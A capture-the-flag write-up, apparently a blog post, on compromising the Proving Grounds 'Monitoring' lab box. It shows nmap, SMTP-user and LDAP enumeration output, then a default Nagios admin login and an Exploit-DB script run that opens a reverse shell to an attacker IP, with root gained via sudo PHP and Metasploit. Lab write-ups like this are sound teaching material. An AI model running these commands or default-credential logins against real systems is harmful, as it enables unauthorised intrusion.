


---

title: "Monitoring"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Linux, Web, Nagios]
mermaid: true
image: ../assets/img/pg/offsec.jpeg

---

The exploitation of the "Monitoring" box involved several critical steps. First, information gathering was conducted through a port scan using the nmap tool, identifying open ports such as 22, 25, 80, 389, 443, and 5667. During enumeration, vulnerable services were discovered, including the Nagios server.
Using the CVE-2020-15903 exploit, initial access was gained with the default credentials "nagiosadmin" and "admin". A reverse shell was established, providing remote access to the system.
During post-exploitation, it was identified that the "/usr/bin/php" binary could be executed with sudo privileges. An exploit in PHP was found, but due to dependencies, Metasploit was used to escalate privileges, ultimately gaining root access.
The process included techniques for exploiting web service vulnerabilities, remote command execution, and privilege escalation, culminating in total system access and the retrieval of proof files.

# Overview



## 1. Intelligence Gathering

### Port Scan

```bash
 sudo nmap -Pn -sV -p- --open 192.168.190.136
```

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp       Postfix smtpd
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
5667/tcp open  tcpwrapped
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Enumeration

### Port 25

User enumeration with smtp-user-enum tool

```bash
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t 192.168.190.136
```

```
----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... /usr/share/wordlists/seclists/Usernames/Names/names.txt
Target count ............. 1
Username count ........... 10177
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Wed Jun 19 15:25:04 2024 #########
192.168.190.136: bin exists
192.168.190.136: irc exists
192.168.190.136: mail exists
192.168.190.136: man exists
192.168.190.136: root exists
192.168.190.136: sys exists
######## Scan completed at Wed Jun 19 15:43:27 2024 #########
6 results.

10177 queries in 1103 seconds (9.2 queries / sec)
```

### Port 389

```bash
nmap -Pn -sT -Pn --open -p389 --script=ldap-rootdse.nse 192.168.236.136 -n
```

```
PORT    STATE SERVICE
389/tcp open  ldap
| ldap-rootdse: 
| LDAP Results
|   <ROOT>
|       namingContexts: dc=nodomain
|       supportedControl: 2.16.840.1.113730.3.4.18
|       supportedControl: 2.16.840.1.113730.3.4.2
|       supportedControl: 1.3.6.1.4.1.4203.1.10.1
|       supportedControl: 1.3.6.1.1.22
|       supportedControl: 1.2.840.113556.1.4.319
|       supportedControl: 1.2.826.0.1.3344810.2.3
|       supportedControl: 1.3.6.1.1.13.2
|       supportedControl: 1.3.6.1.1.13.1
|       supportedControl: 1.3.6.1.1.12
|       supportedExtension: 1.3.6.1.4.1.4203.1.11.1
|       supportedExtension: 1.3.6.1.4.1.4203.1.11.3
|       supportedExtension: 1.3.6.1.1.8
|       supportedLDAPVersion: 3
|       supportedSASLMechanisms: DIGEST-MD5
|       supportedSASLMechanisms: NTLM
|       supportedSASLMechanisms: CRAM-MD5
|_      subschemaSubentry: cn=Subschema
```

### Port 80



searched for the exploit for Nagios XL but didn't find one

login page


searched for the default credentials -u “nagiosadmin” -p “admin”

Redirected to port 443

### Port 443


## 3. Exploitation

To gain initial access, the exploit from [https://www.exploit-db.com/exploits/49422](https://www.exploit-db.com/exploits/49422) was used.

```bash
python3 [49422.py](http://49422.py/) [https://192.168.236.136](https://192.168.236.136/) nagiosadmin admin 192.168.45.195 666
```


Initial Access


With this exploit, I was unable to escalate privileges. However, I could execute "/usr/bin/php" with sudo. I found an exploit in PHP, but it had many dependencies, so I used Metasploit instead.


Root Access

